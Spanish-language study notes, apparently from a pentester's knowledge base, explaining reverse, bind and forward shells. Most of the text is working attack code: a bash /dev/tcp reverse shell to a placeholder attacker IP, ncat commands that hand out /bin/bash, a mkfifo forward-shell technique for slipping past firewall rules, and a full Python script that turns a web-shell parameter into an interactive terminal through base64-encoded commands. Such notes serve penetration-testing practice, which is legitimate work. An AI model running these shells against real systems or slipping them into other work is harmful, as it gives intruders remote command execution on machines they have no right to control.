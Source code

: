 ---------
Resumen
- Reverse Shell: El servidor envía una shell al atacante conectándose a través de un puerto abierto en su máquina.
- Bind Shell: El servidor abre un puerto y ofrece una shell a cualquier persona que se conecte a él.


### Rever Shell
Este método tiene como objetivo que el servidor le envíe una shell al atacante. El atacante deja abierto un puerto en su máquina host y en el servidor ejecuta un oneliner para que este envíe una /bin/bash a su dirección ip por el puerto abierto.

ATACANTE  MODO ESCUCHA
```bash
nc -nlvp 443
```

**SERVIDOR**
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
```
Con ncat
```bash
ncat -e /bin/bash 172.23.0.1 443
```
### Bind Shell
Este método es el inverso a la rever shell, en este caso es en el servidor donde se abre un puerto ofreciendo una /bin/bash para todo aquel que se conecte. Por tanto el atacante simplemente se conecta al servidor poniendo la ip y el puerto abierto.

SERVIDOR MODO ESCUCHA OFRECIENDO UNA BASH
```bash
ncat -nlvp 443 -e /bin/bash
```

ATACANTE CONECTÁNDOSE AL SERVIDOR
```bash
ncat 172.23.0.4 443
```
### Forward Shell
En caso de que los dos primero métodos no funcionen porque se haya configurado una serie de reglas iptables que bloqueen la comunicación pues se recurre a la forward shell que se utiliza para eludir estas reglas. El concepto básico es que se utilizan dos archivos, uno donde se introduce el output y otro donde se extrae el output. Cuando el atacante consigue crear estos dos archivos puede jugar con los pipes (tuberías) para redirigir y tratar el flujo de la información como el quiera.
A continuación explicaré mas o menos como sería:
Crea un archivo con nombre input (no necesariamente debe ser este nombre) donde se introducirán los comandos a ejecutar, pero este archivo no es un archivo txt normal, tiene que ser creado con mkfifo. Con mkfifo podemos crear archivos que sirvan como canalizadores de la información, los datos que sean introducidos en este podemos ejecutarlo en una bash y redirigir el output a un archivo normal (.txt) 
Aunque también podríamos hacerlo con un archivo txt normal pero la diferencia es que un archivo mkfifo nunca guarda ningún dato almacenado, si hacemos un cat a un archivo mkfifo lo que vamos a ver es que el proceso se va a quedar a la espera hasta  que se introduzca algún dato. Es decir si metemos con echo un **{echo "HOLA MUNDO" > archivomkfifo}** seguidamente se finalizará el cat a ese archivo porque ya si tiene contenido y veremos HOLA MUNDO en la consola.
Si volvemos a catear el archivo pasará lo mismo porque este archivo no está diseñado para almacenar la información indefinidamente sino que es como un canalizador de datos para poder redirigir el output según nuestros intereses.
Ejemplo:
```bash
mkfifo input; touch output
cat input | /bin/bash > output
```

En este caso estamos cateando el archivo input para que cuando se introduzca algún dato en el mismo sea ejecutado por una bash y rediriga el resultado en el archivo output. 
De manera que si yo con echo introduzco un comando como por ejemplo **(echo "whoami" > input)** podré ver el resultado del comando en el archivo output

Ahora puedo hacer lo siguiente, abrir dos terminales donde en uno sea para introducir comandos y otro para visualizar el resultado
1º Terminal ejecutamos el siguiente bucle infinito
```bash
while true;do cat input | /bin/bash > output && cat output; done
```

2º Terminal podemos ejecutar cualquier comando que introduzcas en el archivo mkfifo
```bash
echo "whoami" > input
```
Ahora seguidamente veremos el output del resultado en la primera terminal.

También se puede hacer con tail -f, si no sabes que hace esto mira [[Filtrar y ordenar datos]].
```bash
tail -f in | /bin/bash > on
```

Para ver el resultado cateas el on, puedes dejarlo automático de la siguiente manera. Este comando se explica en [[Crontab Tareas programadas]]
```bash
watch -n 1 cat on
```

**SCRIPT PARA AUTOMATIZAR TODO ESTE PROCESO**
Una vez entendido esto podemos ejecutar con python3 el siguiente script que nos dará una terminal interactiva, se encuentra en el siguiente repositorio: https://github.com/s4vitar/ttyoverhttp
```python
#!/usr/bin/python3

import requests, time, threading, pdb, signal, sys
from base64 import b64encode
from random import randrange

class AllTheReads(object):
	def __init__(self, interval=1):
		self.interval = interval
		thread = threading.Thread(target=self.run, args=())
		thread.daemon = True
		thread.start()

	def run(self):
		readoutput = """/bin/cat %s""" % (stdout)
		clearoutput = """echo '' > %s""" % (stdout)
		while True:
			output = RunCmd(readoutput)
			if output:
				RunCmd(clearoutput)
				print(output)
			time.sleep(self.interval)

def RunCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
        	'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
		}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result

def WriteCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
		'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
	}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result

def ReadCmd():
        GetOutput = """/bin/cat %s""" % (stdout)
        output = RunCmd(GetOutput)
        return output

def SetupShell():
	NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
	try:
		RunCmd(NamedPipes)
	except:
		None
	return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)
```

### WEB PAGES
- [Pentest monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux)
